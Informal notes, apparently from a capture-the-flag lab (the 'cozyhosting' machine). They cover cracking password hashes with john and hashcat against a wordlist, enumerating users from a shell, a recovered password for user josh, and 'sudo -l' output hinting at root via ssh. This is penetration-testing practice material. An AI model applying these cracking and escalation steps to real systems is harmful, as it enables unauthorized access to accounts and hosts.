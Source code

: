 
THIS DO NOT WORK FOR ME 
```
**john -w /usr/share/wordlists/rockyou.txt hash.txt**
```


The system haves a user called josh
```
app@cozyhosting:/app$ cd ..
app@cozyhosting:/$ ls
app  boot  etc   lib    lib64   lost+found  mnt  proc  run   srv  tmp  var
bin  dev   home  lib32  libx32  media       opt  root  sbin  sys  usr
app@cozyhosting:/$ cd /home
app@cozyhosting:/home$ ls
josh
app@cozyhosting:/home$ whoami
app
app@cozyhosting:/home$ 

```


this is the other way to break hashes

```
sudo hashcat -m 3200 adminhash.txt /usr/share/wordlists/rockyou.txt 
```

maybe this would work:

```
sudo john -w:/home/cds/Downloads/rockyou.txt hash.txt
```


AND THIS LAST WORKED FOR ME !!!! 

![[Screenshot_2023-09-09_15_50_52.png]]

The password is manchesterunited, and the user of the system is josh. So lets try to connect via ssh


This are the perm that john can do on system as root. without password
```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
josh@cozyhosting:~$ 

```

with this commands I can be root
